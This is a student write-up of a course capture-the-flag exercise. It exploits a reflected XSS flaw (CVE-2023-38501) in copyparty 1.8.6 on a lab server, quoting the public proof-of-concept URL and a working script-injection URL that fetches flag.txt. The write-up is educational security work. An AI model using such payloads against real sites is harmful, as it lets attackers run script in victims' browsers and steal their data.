

# CTF7

This document is a brief explanation of our resolution of the XSS CTF given to us during week 7.

## Recognition

We start exploring the website and found the critical file `flag.txt` very easily but when we open it we see this text:

```text
Nice try, I am only accessible via JavaScript shenanigans.
```

It looks like we need to open this file using JavaScript.

Exploring a little bit more we found a file `HELP.md` where there is a line (the first one) naming the software used and its version:

```text
[SFX]    this is: copyparty 1.8.6
```

With this we search about this software and found out some interesting things.

## Searching and Choosing for Vulnerabilities

In this case we knew that we needed some XSS vulnerability to insert JavaScript to find the flag.
With the software name we searched in a CVE database for any known vulnerabilities that could help us and found CVE-2023-38501 that had the following description:

```txt
Copyparty is a portable file server. Versions prior to 1.8.6 are subject to a reflected cross-site scripting (XSS) Attack.
Vulnerability that exists in the web interface of the application could allow an attacker to execute malicious javascript code by tricking users into accessing a malicious link.
(https://www.exploit-db.com/exploits/51635)
```

## Exploring the Vulnerabilities

In the CVE database (mentioned before) we also found this example:

```txt
https://localhost:3923/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

To accomplish the actual exploit we need to change the method used because the example URL uses an image and will just verify if the vulnerabily actually exists by showing a simple alert, but thats not what we want.

First we needed to use `<script>` because we needed to use JavaScript.
We want to see the actual content of the `flag.txt` file so we need to use the fetch method.
Then the `.then(response => response.text())` converts the response into a readable string.
And lastly the `.then(data => alert(data))` displays the flag content in an alert box.
Based on that we wrote our own URL.

```txt
// Unsanitized version
http://ctf-fsi.fe.up.pt:5007/?k304=y<script> fetch('/flag.txt').then(response => response.text()).then(data => alert(data)) </script>

// Final and working version
https://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A<script>%20fetch('/flag.txt').then(response%20=>%20response.text()).then(data%20=>%20alert(data))%20</script>
```

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller;">Figure 1: Flag</figcaption>
    </figure>
</div>

## Questions

This questions were in the CTF description and we decided to include them here because these helped our thought process and helped us complete this CTF.

**Question1**: Find the file refering to the flag on the server. Why couldn't you open the secret flag directly?

**Answer**: The file refering to the flag on the server was the `flag.txt` file but we need to open it using JavaScript code.

**Question2**: This service is popular, maybe there is a know vulnerability. Maybe it can help access the flag?

**Answer**: The `copyparty` service's version `1.8.6` as some vulnerabilities and one of them (CVE-2023-38501) is perfectly suited for the type of attack we want to do (XSS).

**Question3**: Which type of vulnerability is XSS (Reflected, Stored ou DOM) that allowed you to access the flag?

**Answer**: The type of XSS vulnerability that allowed us to access the flag in this scenario is a **Reflected XSS** because:

- The payload was reflected directly in the server's response.
- The execution occurred immediately when the crafted URL was accessed.
